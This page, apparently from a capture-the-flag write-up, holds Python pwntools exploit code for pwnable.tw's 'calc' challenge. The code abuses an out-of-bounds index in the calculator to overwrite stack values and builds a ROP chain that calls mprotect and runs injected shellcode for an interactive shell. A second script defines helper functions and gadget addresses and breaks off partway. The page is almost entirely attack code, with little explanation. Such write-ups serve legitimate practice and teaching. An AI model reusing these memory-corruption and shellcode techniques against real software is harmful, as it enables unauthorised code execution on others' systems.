 ```
overw_ebp_plus_num(0x18,read)
overw_ebp_plus_num(0x14,0x7)
overw_ebp_plus_num(0x10,0x1000)
overw_ebp_plus_num(0xc,bss_sec)
overw_ebp_plus_num(8,pppr)
overw_ebp_plus_num(4,mprotect)

p.sendline("Exploit_Calc")

p.send("\x90"*10+shell)

p.interactive()

```



exploit - 2
```
#!/usr/bin/python

from pwn import *
import time

file_path="/home/sungyun/round3/calc/calc"

def get_ebp_val():
	pay="+"
	pay+=str(0x5a0/4)
	p.sendline(pay)
	val = p.recvline()
	return int(val)

def overw_ebp_plus_num(loc,num):
	pay="+"
	pay+=str( ((loc+0x5a0)/4) )
	p.sendline(pay)
	org=int(p.recvline())
	op1 = "+"

	if num < 0:
		op1 = "-"
		num *= -1
	op2 = "-"
	if org <0:
		org *= -1
		op2 = "+"
	pay2=pay
	pay2+=op1
	pay2+=str(num)
	pay2+=op2
	pay2+=str(org)
	p.sendline(pay2)
	p.recvline()

#context.log_level = 'debug'

#p=process(file_path)
p=remote("chall.pwnable.tw",10100)

p_eax=0x0805c34b
p_edx_ecx_ebx=0x080701d0
int_80=0x08049a21
null_sec=0x80ed0d0
```